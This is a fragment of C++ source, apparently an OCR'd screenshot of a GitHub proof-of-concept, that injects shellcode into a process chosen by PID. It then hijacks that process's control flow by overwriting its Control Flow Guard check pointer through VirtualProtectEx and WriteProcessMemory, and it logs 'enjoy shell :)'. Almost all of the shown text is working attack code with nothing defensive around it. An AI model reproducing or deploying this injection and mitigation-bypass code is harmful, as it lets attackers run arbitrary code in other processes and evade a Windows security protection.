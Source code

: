```cpp
    LOG_SUCCESS("Successfully wrote shellcode to target process");

    //
    // Overwrite CFG with PTR
    //
    DWORD oldprotect = NULL;
    BOOL success = VirtualProtectEx(process, __guard_check_icall_fptr, sizeof(FARPROC), PAGE_READWRITE, &oldprotect);
    WriteProcessMemory(process, __guard_check_icall_fptr, &base_address, sizeof(PVOID), NULL);
    success = VirtualProtectEx(process, __guard_check_icall_fptr, sizeof(FARPROC), oldprotect, &oldprotect);
    LOG_SUCCESS("Overwrote CFG, enjoy shell :)");
}

int main(int argc, char** argv)
{
    if (argc != 2)
    {
        LOG_ERROR(
            "Invalid usage!\n"
            "    Usage: %s <pid>",
            argv[0]
        );
        return -1;
    }
    INT pid = atoi(argv[1]);
    poc(pid);
	return 0;
}
```

